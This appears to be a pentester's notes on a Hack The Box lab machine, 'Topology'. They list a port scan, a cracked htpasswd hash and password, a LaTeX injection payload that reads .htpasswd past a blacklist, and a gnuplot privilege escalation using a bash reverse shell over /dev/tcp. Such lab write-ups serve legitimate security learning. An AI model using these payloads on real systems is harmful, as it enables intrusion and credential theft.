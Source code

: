 | HOST                        | PORT | PROTO | SERVICE      | VERSION                 |
| --------------------------- | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.217 (topology.htb) | 22   | tcp   | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.7 |
| 10.10.11.217 (topology.htb) | 80   | tcp   | Apache httpd | 2.4.41                  |


## HEADERS
---
HTTP/1.1 200 OK
Date: Fri, 07 Jul 2023 23:58:29 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Tue, 17 Jan 2023 17:26:29 GMT
ETag: "1a6f-5f27900124a8b"
Accept-Ranges: bytes
Content-Length: 6767
Vary: Accept-Encoding
Content-Type: text/html

---

## DIRECTORIES
---

---

## USERS
---
vdaisley $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0 (calculus20)

---

## NOTES
---
* Found: dev.topology.htb Status: 401 [Size: 463] (login)
* Found: stats.topology.htb Status: 200 [Size: 108] (fake stats page)
* latex.topology.htb
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection latex injection cheatsheet
* has blacklisted commands, that can be bypassed using `$` either side 
* `$\lstinputlisting{/var/www/dev/.htpasswd}$`
* `hashcat -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt` to crack htpasswd
* `pspy64` shows `gnuplot` running a wildcard `.plt` script in the `/opt/gnuplot` directory as root
* create a `.plt` script with the code `system "bash -c 'bash -i >& /dev/tcp/10.10.14.9/2222 0>&1'"` to execute a reverse shell
* copy it into `/opt/gnuplot` with a listener open


---
